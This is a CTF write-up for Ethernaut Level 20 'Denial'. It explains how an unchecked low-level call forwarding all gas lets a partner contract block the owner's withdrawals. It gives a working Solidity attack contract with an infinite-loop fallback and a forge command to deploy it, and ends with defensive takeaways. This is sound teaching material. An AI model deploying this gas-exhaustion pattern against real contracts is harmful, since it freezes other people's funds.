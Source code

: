 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/20-denial.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 20 - Denial</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 20 - Denial](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-20-denial)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/20-denial-requirements.webp" width="800px"/>

## The hack

The goal of the Denial challenge is to prevent the owner from withdrawing funds using the `withdraw()` function. How to do that?

Let's take a look at the `withdraw()` function:

```javascript
function withdraw() public {
        uint amountToSend = address(this).balance / 100; // 1% of the contract's balance
        partner.call{value:amountToSend}(""); // Send to partner using call
        payable(owner).transfer(amountToSend); // Send to owner using transfer

        // The rest is irrelevant to the solution, but note that the CEI isn't respected
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
```

There are 2 external calls here:

- `partner.call{value:amountToSend}("");`
- `payable(owner).transfer(amountToSend);`

There isn't much we can do with the `transfer` to the owner. However, we know that the `call` function forwards all the remaining gas to the callee. Unfortunately, since the return value isn't checked, simply reverting upon receiving ether wouldn't work. So we have to find another way to break the `withdraw` function.

This can be achieved by using all the remaining gas within the fallback function. By doing so, the `withdraw()` function will never be able to complete its execution. In this case, a useless infinite loop will do the work beautifully:

```javascript
fallback() external payable {
    while (true) {}
}
```

## Solution

Let's implement the solution accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
}

contract Stop {
    IDenial idenial;

    constructor(address _denial) {
        idenial = IDenial(_denial);
    }

    function becomePartner() public {
        idenial.setWithdrawPartner(address(this));
    }

    fallback() external payable {
        while (true) {}
    }
}

```

Then run the script with the following command:

```bash
forge script script/20_Denial.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Always check the return value of the `call` function.
- A specific amount of gas can be specified when using the `call` function.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
